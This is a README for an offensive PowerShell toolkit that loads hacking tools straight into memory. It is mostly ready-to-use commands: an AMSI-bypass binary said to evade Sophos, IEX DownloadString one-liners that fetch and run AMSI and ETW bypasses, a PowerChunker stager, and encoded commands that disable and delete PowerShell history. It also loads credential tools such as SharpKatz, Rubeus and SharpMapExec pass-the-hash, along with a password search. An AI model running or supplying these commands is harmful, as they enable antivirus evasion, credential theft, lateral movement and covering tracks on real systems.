 # PowerShell exec-assembly remote loader

## There is a very useful tool to wrap CSharp assemlby tools within PowerShell can be loaded remotely:

https://github.com/S3cur3Th1sSh1t/PowerSharpPack

## However, sometimes I will need to load some uncommon CSharp tools, this one is used to load CSharp assembly EXE directly in memory (fileless). it will provide a better AV bypass (need AMSI bypass first)

## Regarding to AMSI bypass, must read these first:
https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell


## A golang version AMSI bypass using direct syscalls (improved and much more chance to be successful)
https://github.com/timwhitez/Doge-AMSI-patch//

To Compile:
```
cd /opt/
git clone https://github.com/timwhitez/Doge-AMSI-patch//
cd Doge-AMSI-patch
go mod init amsi
go mod tidy
env GOOS=windows GOARCH=amd64 -o dogeamsi.exe ./amsi.go
```

A compiled version `dogeamsi.exe` is included in this repo for convinence. 
This one is tested to bypass [**sophos AMSI protection**](https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/) successfully.

## To bring back a detected AMSI bypass script alive:
https://github.com/icyguider/PowerChunker

Run the following command to generate amsibypass stager and host it:
```
┌──(root💀TW-PenTestBox)-[/opt/PowerChunker]
└─# ./PowerChunker.py bypass.ps1 10.0.0.186 --serve

/\     __    PowerChunker.py!!!            
  \ .-':::.         (by @icyguider)                       
   \ :::::|\                              
  |,\:::'/  \     why is there hamburger? 
  `.:::-'    \                             
    `-.       \         ___                
       `-.     |     .-'';:::.              
          `-.-'     / ',''.;;;\            
                   |  ','','.''|            
              AsH  |\  ' ,',' /'           
                   `.`-.___.-;'             
                     `--._.-'                                                           

[+] Powershell script has been split into 10 files...
[!] PowerChunker Stager written to: chunker.ps1
    Execute like so: iex (iwr -UseBasicParsing http://10.0.0.186/chunker.ps1)

┌──(root💀TW-PenTestBox)-[/opt/PowerChunker]
└─# python3 -m http.server 80
```

## To block writes history log
```
# Neuter Writes to History Log:
Set-PSReadlineOption -HistorySaveStyle SaveNothing

# Encoded version of blocking writes to history
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('UwBlAHQALQBQAFMAUgBlAGEAZABsAGkAbgBlAE8AcAB0AGkAbwBuACAALQBIAGkAcwB0AG8AcgB5AFMAYQB2AGUAUwB0AHkAbABlACAAUwBhAHYAZQBOAG8AdABoAGkAbgBnAA==')) | IEX

# Delete history logs
rm (Get-PSReadlineOption).HistorySavePath
```

Ref:
[1] https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560


### Usage:

```
## ETW bypass and AMSI bypass all-in-one, sometimes amsi3.txt been detected and blocked
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));

## If amsi3.txt has been blocked, then try the following AMSI bypass 
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi1_1.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi2.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));


## Load SharpKatz
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpKatz.exe -Command "msv"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpKatz.exe?raw=true -Command "msv"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpKatz.exe?raw=true -Command "logonpassword"

## Load winPEAS
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/winPEAS.exe -Command "notcolor quiet log"
Invoke-LoadAssembly -AssemblyUrl https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/Dotfuscated/any/winPEASany.exe?raw=true -Command "notcolor quiet"

## Load Rubeus
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/Rubeus.exe -Command "hash /password:test /consoleoutfile:out.log"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Rubeus.exe?raw=true -Command "hash /password:test"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Rubeus.exe?raw=true -Command "hash /password:test"

## Load SharpEDRChecker
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:8000/SharpEDRChecker.exe -Command ""
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpEDRChecker.exe?raw=true

## Load SauronEye
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SauronEye.exe?raw=true -Command "--directories c:\ --filetypes .txt -contents --keywords password pass*"

## Load Certify
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe?raw=true -Command "find /vulnerable"

## Load EDD
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/EDD.exe?raw=true -Command "-h"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/EDD_any.exe?raw=true -Command "-h"


### After fix the reflectedType is not public issue (Defender not detected):
## Load SharpUp
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpUpNew.exe -Command "audit"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpUp.exe?raw=true -Command "audit"

## Load Seatbelt
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/Seatbelt.exe?raw=true -Command "-group=user -outputfile=C:\\Temp\\out.txt"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/Seatbelt.exe?raw=true -Command "-group=all -full -outputfile=C:\Temp\out.txt"

## Load SharpLAPS
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpLAPS.exe?raw=true -Command "-h"

## Load SharpMapExec
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:81/SharpMapExec.exe -Command "ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpMapExec.exe?raw=true -Command "ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET"

## Load SharpShares
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:81/SharpShares.exe -Command "-h"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpShares.exe?raw=true -Command "-h"

```
